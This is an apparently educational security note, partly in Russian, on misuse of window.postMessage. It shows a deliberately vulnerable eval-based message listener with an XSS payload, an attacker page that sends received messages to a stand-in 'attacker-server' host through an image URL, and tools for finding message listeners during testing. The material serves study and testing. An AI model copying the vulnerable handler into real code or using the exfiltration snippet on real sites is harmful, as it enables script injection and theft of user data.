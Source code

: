 # window.postMessage

## Intro: что такое postMessage

Это метод `cross-origin` коммуникации между элементами `Window`: между страницей и всплывающим окном этой страницы, между страницей и `iframe`, встроенным в нее, и тп

Обычно, скрипты имеют доступ к друг другу на разных страницах если, и только если, имеют одинкавый протокол, хост и порт ([same-origin policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin\_policy)). `postMessage` дает безопасный способ обойти это ограничения (если правильно использовать).

В общем, одно окно может получить ссылку на другое (например, через `targetWindow = window.opener`), а затем отправить ему `MessageEvent` с помощью `targetWindow.postMessage()`. Получающее окно тогда свободно обрабатывать это событие по мере необходимости. Аргументы, передаваемые в `window.postMessage()` (то есть «сообщение»), открываются принимающему окну через объект события.

## К чему может привести неправильное использование

### XSS

Где-то обрабатывается message:

```javascript
function (b){b.data.evalCall&&eval("("+b.data.evalCall+")")}
```

Мы отправляем сообщение

```javascript
b.postMessage({"evalCall":"alert(document.domain)"},"*")
```

Это возможно, если секция вызова postMessage является уязвимой или настройка CORS на принимающей стороне является уязвимой.

### Leak Sensitive Data

vuln page

```javascript
function parent_getUserInfo()
{
   var userdata=[name,age, ...];
   parent.postMessage(userdata);
}
```

attacker

```markup
<img src="http://attacker-server/?" id=message> 
<script>
 window.onmessage = function(e){  
  document.getElementById("message").src += "&"+e.data;
 }
</script>
```

## Tools

Есть инструмент для мониторинга использования postMessages - [https://github.com/fransr/postMessage-tracker](https://github.com/fransr/postMessage-tracker)

Оформлена как Google extension (но и в ff стартует вроде тож)



To exploit the postMessage() vulnerabilities, first, it is required to know if the target application is using web messaging or not. If the target application uses web messaging, it is essential to identify the various listeners. There are several methods to do so, including:

1. **Searching for the keywords:** Use the developer tool’s global search option to search for specific keywords such as **postMessage(), addEventListener(“message, .on(“message”** in the javascript files.
2. **Using** [**MessPostage**](https://github.com/Sjord/messpostage) **Browser Extension:** Using this extension is an easy way to detect whenever an application usage postMessage() APIs. This also shows which messages were sent and where event listeners have been added:
3. **Using Developer Tools:** The “Global Listener” feature present in the “Sources” pane of Developer tools can be used to identify the use of postMessage(). After opening the Global Listener, click on “messages” to view the message handlers.
4. **Using** [**Posta**](https://github.com/benso-io/posta)**:** Posta is a tool for researching Cross-document Messaging communication. It allows you to track, explore and exploit `postMessage` vulnerabilities, and includes features such as replaying messages sent between windows within any attached browser.
5. **Using** [**PMHook**](https://github.com/yehgdotnet/postmessagehook)**:** PMHook is a client-side JavaScript library designed to be used with TamperMonkey in the Chrome web browser. Executed immediately at page load, PMHook wraps the **EventTarget.addEventListener** method and logs any subsequent message event handers as they are added. The event handler functions themselves are also wrapped to log messages received by each handler.

Если надо проверить быстренько, что post messages шлются на странице, можно в консоли вбить и ловить сообщения:

```
window.addEventListener('message', data => console.log(data))
```
